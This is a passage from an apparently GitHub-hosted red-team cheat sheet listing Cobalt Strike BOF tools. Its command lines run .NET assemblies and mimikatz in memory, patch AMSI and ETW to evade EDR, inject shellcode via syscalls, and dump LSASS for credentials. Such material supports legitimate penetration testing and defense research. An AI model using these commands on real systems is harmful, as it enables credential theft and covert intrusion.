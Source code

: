 ```
- [**BOF.NET**](https://github.com/CCob/BOF.NET)<br />
Critical tool for red teams that allows you to run .NET assemblies as BOFs within the Beacon process<br />
```
bofnet_init --> Start BOF.NET
bofnet_listassemblies --> List loaded .NET assemblies
bofnet_load /Path/To/Assembly.exe --> Load assembly
bofnet_execute bof_name [args] --> Execute assembly
bofnet_shutdown --> Kill BOF.NET
```

- [**Modified BOF.NET**](https://github.com/williamknows/BOF.NET/tree/main)<br />
Updated BOF.NET repo with the added `bofnet_executeassembly` command to easily call .NET assemblies<br />
```
bofnet_init --> Start BOF.NET
bofnet_load /Path/To/Assembly.exe --> Load assembly
bofnet_executeassembly AssemblyName arg1 arg2 arg3 --> Execute .NET assembly
bofnet_executeassembly Seatbelt -group=remote --> SeatBelt execution example
bofnet_shutdown --> Kill BOF.NET
```

- [**Inline-EA**](https://github.com/EricEsquivel/Inline-EA)<br />
BOF to execute .NET assemblies in process with added evasion features against popular EDRs<br />
```
inline-ea /path/to/Rubeus.exe triage --amsi --etw
inline-ea /path/to/Powerpick.exe whoami /all --amsi --etw --patchexit
```

---
### Executing Unmanaged PE Files

- [**No-Consolation**](https://github.com/fortra/No-Consolation)<br />
Use this BOF to execute unamanged PE files inside Beacon's memory and retrieve their output without allocating a console (i.e. without `conhost.exe`)<br />
Supports 64 and 32 bits, supports EXEs and DLLs, doesn't create new processes or threats<br />
```
noconsolation /tmp/mimikatz.exe privilege::debug token::elevate exit --> Load and run a new PE in memory
noconsolation --local C:\windows\system32\cmd.exe /c whoami --> Load a PE from the local machine
noconsolation --list-pes --> List all PEs stored in memory
noconsolation --unload-pe mimikatz.exe
```

---
### Exploitation

- [**ajpc500 BOFs**](https://github.com/ajpc500/BOFs)<br />
A collection of **very** useful BOFs for various utilities including different techniques of shellcode injection with syscalls, process dumping (LSASS!), and patching ETW for better evasion.<br />
```
etw stop --> Patch etw
syscalls_inject <PID> <listener_name> / syscalls_shinject <PID> <path_to_bin> --> Syscalls shellcode injection
syscalls_spawn <listener> / syscalls_shspawn <path_to_bin> --> Spawn and syscalls injections
static_syscalls_apc_spawn <listener> / static_syscalls_apc_spawn <path_to_bin> --> Spawn and static syscalls shellcode njection (NtQueueApcThread)
static_syscalls_inject <PID> <listener_name> / static_syscalls_shinject <PID> <path_to_bin> --> Static syscalls shellcode injection (NtCreateThreadEx)
static_syscalls_dump <PID> [path_to_output] --> Process dump with syscalls (i.e. Dump LSASS!)
```

- [Threadless Inject BOF](https://github.com/iilegacyyii/ThreadlessInject-BOF)
This process injection BOF has to be used by remotely hooking a function and specify which DLL/function you want to target for injecting shellcode into. <br />
```